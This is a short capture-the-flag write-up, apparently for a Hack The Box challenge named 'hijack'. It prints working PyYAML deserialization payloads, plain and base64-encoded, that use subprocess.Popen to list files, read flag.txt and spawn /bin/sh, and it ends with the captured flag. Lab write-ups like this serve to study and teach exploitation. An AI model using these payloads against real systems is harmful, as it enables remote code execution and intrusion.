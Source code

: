 # hijack

**SOLVED**

`nc 209.97.134.50 31978`

```txt
ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxMDAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzEwMCcsIHNvbGFyX2FycmF5X3RlbXA6ICcxMDAnLCB1bml0czogQ30K

!!python/object:__main__.Config {IR_spectrometer_temp: '100', auto_calibration: 'ON',
  propulsion_temp: '100', solar_array_temp: '100', units: C}


!!python/object:__main__.Config {}
```

- https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization
- https://hackmd.io/@defund/HJZajCVlP

generated payload in `flag.py`, then base64 in cyberchef

```txt

!!python/object/apply:subprocess.Popen
- ls

ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBscw==

!!python/object/apply:subprocess.Popen
- cat
- flag.txt

ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBjYXQKLSBmbGFnLnR4dA==

didnt work...

!!python/object/apply:subprocess.Popen
- /bin/sh
ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSAvYmluL3No
```

popped shell - `cat flag.txt`

`HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`
